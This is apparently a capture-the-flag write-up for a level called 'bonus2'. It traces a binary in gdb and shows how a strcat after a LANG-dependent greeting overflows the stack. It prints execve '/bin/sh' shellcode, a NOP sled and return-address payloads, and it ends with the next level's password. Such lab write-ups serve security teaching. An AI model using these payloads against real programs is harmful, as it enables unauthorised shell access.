

### bonus2

#### Basic Recon


no obvious shell here so let's dive deeper then you can see that is reacting if we input 2 numbers
so I'll start the debugger that way

##### Debug


you can see that there's check on the first parameter to the main

```c
int main(int argc, ...);
```

that should be 3 as you can see so yes I was right before we should input 2 arguments


as you can see now *ebx* now is a pointer in the current stack frame
- ebx=esp+0x50=0xbffff6c0

after that we have these instructions

```s
mov eax, 0x0
mov edx, 0x13
mov edi, ebx
mov ecx, edx
```

so now we have this situation
- eax = 0
- edx = 0x13
- edi = 0xbffff6c0 pointer in the current stack frame
- ecx = 0x13


let's check this weird instruction

```s
rep stos DWORD PTR es:[edi], eax
```

what this instruction is doing is putting the value of eax, into the memory location that is stored
in edi, 0x13 times why this number well that's because of ecx

before


after


now we will execute these instructions

```s
mov eax, DWORD PTR [ebx+0xc]
add eax, 0x4
mov eax, DWORD PTR [eax] ; after this we will have eax=0xbffff903 pointer to our first argument
```

which will point to our first input


now we see call to *strncpy* like this

```c
strncpy(
    0xbffff6c0, // esp+0x50 remember this where we filled it with zeros
    0xbffff903,
    0x28 // 40
);
```


as you can see that is what happened 40 chars of my input it's being copied to that *esp+0x50*
which I can assure is not enough to overflow look at the below picture


so yeah our 40 long input is no where near 134 bytes, so no overflow at least not for now

the next list of instructions are responsible for getting the second input

```s
mov eax, DWORD PTR [ebp+0xc]
add eax, 0x8
mov eax, DWORD PTR [eax]; after this eax will point to the second input
```


well I see we are going to call *strncpy* again may be good news!!!

```c
strncpy(
    0xbffff6e8, // eax+0x50+0x28
    0xbffff905, // pointer to our second input
    0x20 // 32
);
```

yeah we are near to the top of stack but we are not near enough as you can see we are 64 bytes away
and *strncpy* will copy 32 bytes, maybe there's some kind of loop, but for now we still not able to
overflow.


we now call to *getenv* with value of `0x8048738` as argument

```c
getenv(
    0x8048738 // pointer to LANG variable
);
```



after that you see that cmp that will jump if the variable does not exist in this case it does, let's
skip this compare for now


now we are going to call *memcmp*
```s
mov DWORD PTR [esp+0x8], 0x2
mov DWORD PTR [esp+0x4], 0x808473d
mov eax, DWORD PTR [esp+0x9c]
mov DWORD PTR [esp], eax
```

```c
memcmp(
    0xbfffff28, // do you remember this value? no we look at the previous picture because that's where getenv stores the value of LANG variable
    0x0804873d, // look at the picture below and you will see it points to string that starts with "fi"
    0x2
);
```


if this comparison failed we'll skip over these instructions
```s
mov DWORD PTR ds:0x8049988, 0x1
jmp main+239
```

for now I'm going to set the variable LANG=fi and see what will happen


as you can see we did not jump why addresses are different well we did change environment variables.

let's see now what we have
```s
mov edx, esp
lea ebx, [esp+0x50]
mov eax, 0x13
mov edi, edx; to the top of stack 
mov esi, ebx ; to esp+0x50 which I had the chance to write to before
mov ecx, eax
```

after that we call that *movs* instruction which just moves data from source *esi* to destination *edi*

here's execution once


keep in mind that we skip comparison by setting LANG=fi, we had the other choice of LANG=nl


let's get a bigger picture before we step into *greetuser*


and instruction at *main+256* will just copy 0x13 of the first input and put it at the top of stack

unitl now there's no clear overflow, but maybe something like the previous one specially there's
call to *strcat* we'll see

now let's dive deeper into *greetuser*


I can see that there's stack allocation of 0x58, if our inputs are being copied into here we may have
chance and our input is 0x28+0x20=0x48 long, no not yet

we see that there's comparison with value at *0x8049988* with 1 if true we will jump *greetuser+54*
and yeah in this case it will jump, remember this location we can control, we can either put in it 1
or 2 depending on LANG environment variable

well now we have choice to make either we make it 1 or 2


we are going to jump to *greetuser+54* if the value is 1

but you can see from the picture that if the value is 2 we are going to jump further *greetuser+101*
maybe that is better


I'm going to try that now by setting the value of LANG to nl


you can see that there's not a lot of code if we choose this route

now we face this instruction
```s
mov edx, 0x804872a ; pointer to the string "Goedemiddag! "
```


after that we have

```s
lea eax, [ebp-0x48]; pointer in the current stack frame (greetuser stack frame)
mov ecx, DWORD PTR [edx]; ecx will have ascii of the first 4 chars of "Goedemiddag! "
mov DWORD PTR [eax], ecx ; put the 4 byte value into the location specified by eax
```


```s
mov ecx, DWORD PTR [edx+0x4]; okay again get the next 4 chars into ecx
mov DWORD PTR [eax + 0x4], ecx; like before move the next 4 chars to the pointed area
```


and again the next 4


after we have this instructions
```s
movzx edx, WORD PTR [edx + 0xc]; it will the ascii code of space into edx and edx will hold the value 0x20
mov WORD PTR [eax+0xc], dx; we effectively terminate the final string
```


after that `nop`

```s
lea eax, [ebp+0x8]; pointer the stack of the previous frame
mov DWORD PTR [esp+0x4], eax ; it will be passed as second argument to *strcat* later
lea eax, [ebp-0x48]; pointer in the current stack frame
mov DWORD PTR [esp], eax; first parameter to *strcat*
```

```c
strcat(
    ebp-0x48,
    ebp+0x8
);
```

so we will concatenate 'our inputs' with the already existing string of `"Goedemiddag! "`

*strcat* has the space of 0x48 and there's already `"Goedemiddag! "` there 13 chars so if
add our input which can be as big as 0x48 so yep we can overflow here by 13 bytes

so we should have 0x28 for the first input,

```py
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A"*12'
```

after all we need to write 0x48+0x4+0x4 because we need to overwrite old ebp and then return value
that is why 0x4+0x4, so we *strcat* need to write 80-13=our combined inputs


13 + I1 + I2 = 80; I1 will be 40, so I2 needs to be at least 27

```py
python -c 'print "A"*23 + "\x40\xf6\xff\xbf"'
```

well this gave me segfault I believe because when we are in gdb we have different environment variables
you can check them in source folder for now, so I'll try to find the difference and start my shell
with `nop`'s so even if I missed the address it would not be problem


```py
python -c 'print "\x90"*12 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'
```

```py
python -c 'print "A"*23 + "\x53\xf6\xff\xbf"'
```

you may be wondering why 53 and not 40 well, I found out that in gdb we have 19 characters more `LINES=63` and `COLUMNS=226`
so I add the value 19 to 0x40 to 0x53


#### Password for bonus3
```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```